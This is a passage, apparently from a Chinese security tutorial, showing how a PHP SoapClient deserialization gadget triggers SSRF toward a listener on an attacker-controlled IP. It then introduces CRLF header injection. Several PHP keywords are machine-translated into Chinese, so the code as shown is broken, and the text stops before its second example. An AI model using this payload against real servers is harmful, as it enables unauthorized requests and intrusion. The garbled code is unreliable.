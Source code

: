 `知道前面两个参数的含义后，就容易构造出SSRF的利用Payload了。我们可以设置第一个参数为null，然后第二个参数的位置选项设置为target_url。`

`  
`

``

`PHP`

``

    
    
    1   
    2   
    3   
    4   
    5   
    6   
    7  
    

|

    
    
      
    $a = new SoapClient( null , array ( 'location' => 'http://47.xxx.xxx.72:2333/aaa' , 'uri' => 'http://47.xxx. xxx.72:2333' ));   
    $b = 序列化( $a );   
    回声 $b ;   
    $c = 反序列化( $b );   
    $c -> a();    // 随便调用对象中不存在的方法,触发__call方法进行ssrf   
    ?>  
      
  
---|---  
  
`  
`

`首先在47.xxx.xxx.72上面起个监听：`

`![](https://gitee.com/fuli009/images/raw/master/public/20210826084245.png)`

`然后执行上述代码，如下图所示成功触发SSRF，47.xxx.xxx.72上面收到了请求信息：`

`![](https://gitee.com/fuli009/images/raw/master/public/20210826084246.png)`

`但是，由于它采用 HTTP/HTTPS 协议，所以用处不是很好。而如果这里 HTTP 隐匿还存在 CRLF 漏洞，但我们则可以通过
SSRF+CRLF，插入任意的 HTTP 头。`

`如下测试代码，我们在HTTP头中插入一个cookie：`

`  
`

``

`PHP`

``
